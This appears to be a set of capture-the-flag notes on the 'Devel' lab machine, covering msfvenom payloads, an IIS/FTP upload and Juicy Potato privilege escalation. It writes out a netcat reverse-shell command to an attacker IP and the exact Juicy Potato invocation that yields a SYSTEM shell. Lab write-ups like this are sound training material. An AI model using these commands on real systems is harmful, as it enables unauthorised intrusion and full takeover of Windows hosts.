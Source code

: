 - so we execute the nc first `nc.exe -e cmd.exe 10.10.14.11 9003`
- and we also set up a netcat listener on our attack machine

- we used the first CLSID which is {555F3418-D99E-4E51-800A-6E89CFD8B1D7}, then tried the second {03ca98d6-ff5d-49b8-abc6-03dd84127020} using the full path and we run
`Juicy.Potato.x86.exe -p c:\\Windows\Temp\scripts\priv.bat -l 9999 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`

![](assets/Devel_assets/Pasted%20image%2020230616160834.png)

-  then in our netcat listener, we get a shell as system!!

![](assets/Devel_assets/Pasted%20image%2020230616160916.png)

- we can now retrieve our flag

![](assets/Devel_assets/Pasted%20image%2020230616161328.png)

- [https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)
- [https://github.com/k4sth4/Juicy-Potato](https://github.com/k4sth4/Juicy-Potato)
- [https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/](https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/)
- [https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
- [https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

Walkthrough
- we go to the site, view the image in the site and see the name is welcome.png, and that is the same file in the FTP server
- so the ftp server is likely in the same room as the FTP server
- the file without a file extension does not show in the browser
- IIS does execute code, asp, or aspx
- we can see the server header that it is IIS/7.5, we can check IIS versions to see what windows version 2008 R2, so it will be like asp and aspx since it is relatively new
- we will use msfvenom, if we use x64 it won't work but if we use x86, it will work on all 
- `msfvennom -h --help-format` to see the different formats we have, we can do `msfvenom -l | grep windows` to view all the windows payloads
- after getting meterpreter session, so `sysinfo`